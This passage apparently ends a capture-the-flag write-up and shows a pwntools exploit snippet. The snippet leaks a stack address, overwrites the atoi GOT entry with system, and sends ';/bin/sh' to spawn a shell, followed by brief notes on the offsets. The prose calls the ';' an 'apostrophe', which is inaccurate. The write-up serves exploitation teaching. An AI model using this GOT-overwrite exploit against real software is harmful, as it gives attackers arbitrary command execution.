 ```py

stack_leak = u32(leak(payload))
log.info("Stack leak at {}".format(hex(stack_leak)))
ebp_addr = stack_leak - 264

# overwrite atoi with system addr
where = p32(ebp_addr - 12)
what = p32(exe.got["atoi"] + 0x22)
log.info("Writing {} at {}".format(hex(exe.got["atoi"] + 12), hex(ebp_addr)))
www(what, where)
r.recvuntil("> ")

# pwn
payload = p32(libc.symbols["system"])
payload += b";/bin/sh"
r.sendline(payload)

r.interactive()
```
Note that I subtract 12 from `ebp_addr` because the `bd` pointer is at a 12 byte offset. Also, I prepend ";" to /bin/sh because my_read also reads in the address of system. Since those four bytes obviously do nothing, we have to add an apostrophe so bash interprets them as two separate commands. With this, we get our shell! The full exploit code can be found [here](solve.py). 
